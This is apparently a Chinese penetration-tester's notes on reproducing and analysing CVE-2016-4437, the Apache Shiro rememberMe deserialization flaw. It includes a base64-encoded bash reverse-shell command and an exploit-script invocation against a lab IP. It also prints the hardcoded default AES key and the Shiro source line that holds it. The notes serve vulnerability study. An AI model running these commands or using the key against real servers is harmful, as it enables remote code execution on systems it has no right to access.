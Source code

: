 ```yaml
---
title: CVE-2016-4437
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-08T21:37:56+08:00
categories: 
- 渗透测试
- 漏洞复现
- shiro
---
```


## 漏洞复现

https://github.com/feihong-cs/ShiroExploit-Deprecated/releases/tag/v2.51

使用图形化工具能够很方便的检测和利用漏洞，该工具要求java环境为jdk1.8

或者是使用脚本进行shell反弹

```
bash -c {L2Jpbi9iYXNoIC1pID4mxxxxxxxxEzNS80NDQ0IDA+JjE=}|{base64 -d}{bash -i}
```

```
python2 -u http://192.168.121.xxx:8080 -p "bash -c bash-code" -t 3
```

监听即可拿到shell

或者使用其他工具写入内存码

![2016](E:\笔记软件\笔记\渗透测试\漏洞复现\shiro\2016.png)

## 漏洞分析

Apache Shiro <= 1.2.4 版本中，加密的用户信息序列化后存储在Cookie的rememberMe字段中，攻击者可以使用Shiro的AES加密算法的默认密钥来构造恶意的Cookie rememberMe值，发送到Shiro服务端之后会先后进行Base64解码、AES解密、readObject()反序列化，从而触发Java原生反序列化漏洞，进而实现RCE。该漏洞的根源在于硬编码Key。

在shiro的1.2.4之前版本中使用的是硬编码。其默认密钥的base64编码后的值为kPH+bIxk5D2deZiIxcaaaA==。这里就可以通过构造恶意的序列化对象进行编码，加密，然后作为cookie加密发送，服务端接收后会解密并触发反序列化漏洞。

通过请求包和返回包，我们可以初步识别该漏洞

![2016-2](E:\笔记软件\笔记\渗透测试\漏洞复现\shiro\2016-2.jpg)

```java
private static final Logger log = LoggerFactory.getLogger(AbstractRememberMeManager.class);


/**
 * The following Base64 string was generated by auto-generating an AES Key:
 * <pre>
 * AesCipherService aes = new AesCipherService();
 * byte[] key = aes.generateNewKey().getEncoded();
 * String base64 = Base64.encodeToString(key);
 * </pre>
 * The value of 'base64' was copied-n-pasted here:
 */
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

相较于1.2.5,1.2.4的key直接硬编码在源码中，可以直接从代码中看到
